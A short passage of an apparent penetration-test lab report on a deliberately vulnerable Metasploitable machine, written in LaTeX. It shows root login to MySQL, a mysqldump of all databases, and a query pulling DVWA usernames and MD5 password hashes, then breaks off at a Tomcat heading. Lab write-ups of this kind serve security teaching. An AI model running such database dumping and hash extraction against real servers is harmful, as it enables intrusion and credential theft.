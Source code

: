 \documentclass{article}
\begin{document}
To my surprise I was able to connect to the mysql server as the root mysql
account. This gave me access to all databases on the database server.

Next, I used mysqldump to get a dump of all the databases on this host for offline analysis.

\begin{lstlisting}
root@bt-was:~# mysqldump -uroot -h metasploitable.sait230.ca --all-databases > all-databases.sql
\end{lstlisting}

With full root access and a mysql shell I can now insert rows into any table in any database. 
I can update any record I like and I can read all information in all tables.

\begin{lstlisting}[language=SQL]
mysql> use dvwa
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+
2 rows in set (0.00 sec)

mysql> desc users;
+------------+-------------+------+-----+---------+-------+
| Field      | Type        | Null | Key | Default | Extra |
+------------+-------------+------+-----+---------+-------+
| user_id    | int(6)      | NO   | PRI | 0       |       |
| first_name | varchar(15) | YES  |     | NULL    |       |
| last_name  | varchar(15) | YES  |     | NULL    |       |
| user       | varchar(15) | YES  |     | NULL    |       |
| password   | varchar(32) | YES  |     | NULL    |       |
| avatar     | varchar(70) | YES  |     | NULL    |       |
+------------+-------------+------+-----+---------+-------+
6 rows in set (0.00 sec)

mysql> select user, password from users;
+---------+----------------------------------+
| user    | password                         |
+---------+----------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
| gordonb | e99a18c428cb38d5f260853678922e03 |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 |
| NULL    | NULL                             |
+---------+----------------------------------+
6 rows in set (0.01 sec)
\end{lstlisting}

\newpage
\paragraph{Apache Tomcat}
In the nikto scan we saw that the metasploitable box was using a defaul Apache
Tomcat installation:
\end{document}
